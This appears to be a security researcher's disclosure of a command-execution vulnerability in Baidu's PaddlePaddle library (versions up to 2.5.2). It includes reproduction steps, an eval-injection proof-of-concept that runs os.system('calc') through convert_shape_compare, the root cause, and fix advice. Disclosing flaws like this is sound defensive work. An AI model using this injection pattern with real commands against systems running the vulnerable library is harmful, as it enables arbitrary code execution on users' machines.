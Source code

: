 
Vulnerability Product: Baidu.Inc PaddlePaddle's paddle  
Vulnerability Version: <= 2.5.2  
Vulnerability Type: Command Execution  
Vulnerability Vender: Baidu.Inc  
Vulnerability Details:  discovered by leeya_bug  
Vulnerability Location: paddle/jit/dy2static/convert_operators.py  

## [](#header-3)Basic Info:

Baidu,Inc is a Chinese multinational technology company specializing in Internet-related services, products, and artificial intelligence(AI), headquartered in Beijing's Haidian District. It is one of the largest AI and Internet companies in the world. The holding company of the group is incorporated in the Cayman Island.  

Baidu.Inc PaddlePaddle's Official lib paddle exists Command Execute Vulnerability, Easy to cause user's devices to be hijacked by attackers.

## [](#header-3)PROVE: 

0、Prepare a computer which can run Python3 and Windows10(or other os if you construct a suitable payload)  

1、Download paddle latest version(or <= v2.5.2 if paddle updated)  
```
pip3 install paddlepaddle==2.5.2
```

2、Run Python3, Construct a payload that can run calculator, And run belowing code in python  
```py
import paddle
paddle.jit.dy2static.convert_operators.convert_shape_compare('prefix','+ str(__import__("os").system("calc")) +','1')
```

3、You can find it successfully run calculator  
![图片](https://raw.githubusercontent.com/Leeyangee/leeya_bug/main/AboutThis1.png)  
proved Command Execution  

POC:  
```py
import paddle
paddle.jit.dy2static.convert_operators.convert_shape_compare('prefix','+ str(__import__("os").system("calc")) +','1')
```

## [](#header-3)REASON: 

There is an unfiltered dangerous function (line 681) in API:convert_shape_compare of path paddle/jit/dy2static/convert_operators.py, allowing attackers to construct payloads to bypass the filter and result in user's command execution
![图片](https://raw.githubusercontent.com/Leeyangee/leeya_bug/main/AboutThis2.png)  

## [](#header-3)FIX: 

1、do not use eval()  
2、filter more  

discovered by leeya_bug  
2023/12/15  

-------------------
2023/12/16 update: uppercase letter, add basic information.


